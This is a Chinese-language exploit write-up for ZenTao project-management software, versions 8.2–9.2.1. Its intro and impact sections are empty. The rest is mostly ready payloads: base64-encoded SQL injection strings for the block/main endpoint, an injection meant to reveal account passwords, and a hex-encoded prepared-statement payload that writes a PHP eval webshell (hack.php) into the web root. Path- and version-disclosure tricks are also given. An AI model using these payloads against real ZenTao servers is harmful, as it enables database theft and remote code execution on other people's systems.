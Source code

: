 禅道 8.2-9.2.1 注入&getshell
============================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

我这里用的官方集成环境版本8.4

    获取版本号：/index.php?mode=getconfig

![](resource/禅道8.2-9.2.1注入GetShell/media/rId24.jpg)

绝对路径

获取绝对路径：网址后面随便输入什么就会爆出绝对路径

![](resource/禅道8.2-9.2.1注入GetShell/media/rId25.jpg)

没路径的报错exp：

    {"orderBy":"order limit 1,1 PROCEDURE ANALYSE(polygon(id),1)#","num":"1,1","type":"openedbyme"}

base64加密：

    eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxIFBST0NFRFVSRSBBTkFMWVNFKHBvbHlnb24oaWQpLDEpIyIsIm51bSI6IjEsMSIsInR5cGUiOiJvcGVuZWRieW1lIn0=

EXP

    提交地址：http://127.0.0.1:81/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=base64

※exp需要base64加密后才能提交，且回显、写Shell须加上Referer：<http://127.0.0.1:81/zentao/>

注入显密码：

    {"orderBy":"order limit 1;#","num":"1,1","type":"openedbyme"}

base64加密：

    eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTsjIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ==

不知道什么原因，本地复现无账号密码回显。。。

![](resource/禅道8.2-9.2.1注入GetShell/media/rId27.jpg)

前台GetShell：

    {"orderBy":"order limit 1;SET @SQL=0x73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}

其中有部分使用了MySQL的预处理查询绕过程序的过滤：

导出shell：

    select '<?php @eval($_POST[x])?>' into outfile 'D:/zentao/xampp/zentao/www/hack.php'

HEX编码：（注意加密解密都不带0x，但是EXP中需要加上）

    73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027

base64加密：

    eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2QzY1NjM3NDIwMjczQzNGNzA2ODcwMjA0MDY1NzY2MTZDMjgyNDVGNTA0RjUzNTQ1Qjc4NUQyOTNGM0UyNzIwNjk2RTc0NkYyMDZGNzU3NDY2Njk2QzY1MjAyNzQ0M0EyRjdBNjU2RTc0NjE2RjJGNzg2MTZENzA3MDJGN0E2NTZFNzQ2MTZGMkY3Nzc3NzcyRjY4NjE2MzZCMkU3MDY4NzAyNztQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ==

访问之即可在目录下生成hack.php：

image
